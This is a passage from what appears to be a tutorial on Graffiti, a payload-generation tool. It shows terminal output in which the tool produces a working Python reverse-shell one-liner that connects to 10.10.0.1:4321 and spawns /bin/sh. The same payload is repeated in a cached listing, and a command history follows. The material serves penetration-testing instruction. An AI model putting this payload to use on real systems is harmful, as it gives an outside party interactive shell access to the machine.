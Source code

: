 ```
root@graffiti:~/graffiti# use /linux/python/socket_reverse.json raw

enter the LHOST: 10.10.0.1
enter the LPORT: 4321
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

It will prompt us for the listening IP address and port, and it will display the command for the reverse shell when it's done.

Similar to Graffiti's command-line mode, we can view a history of cached payloads by using the **cached** command:

```
root@graffiti:~/graffiti# cached

Type: Reverse
Execution: Python
Payload: u'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
```

We can also display the command history with the **history** option:

```
root@graffiti:~/graffiti# history

   1   ?
   2   exit
   3   ?
   4   check
   5   external
   6   id
   7   uname
   8   uname -a
   9   ?
  10   list
  11   info
  12   list
  13   info /linux/python/socket_reverse.json
  14   ?
  15   info
  16   ?
  17   search python reverse
  18   search python
  19   use /linux/python/socket_reverse.json raw
  20   graffiti -h
  21   use /linux/python/socket_reverse.json xor
  22   ?
  23   cached
  24   history
```
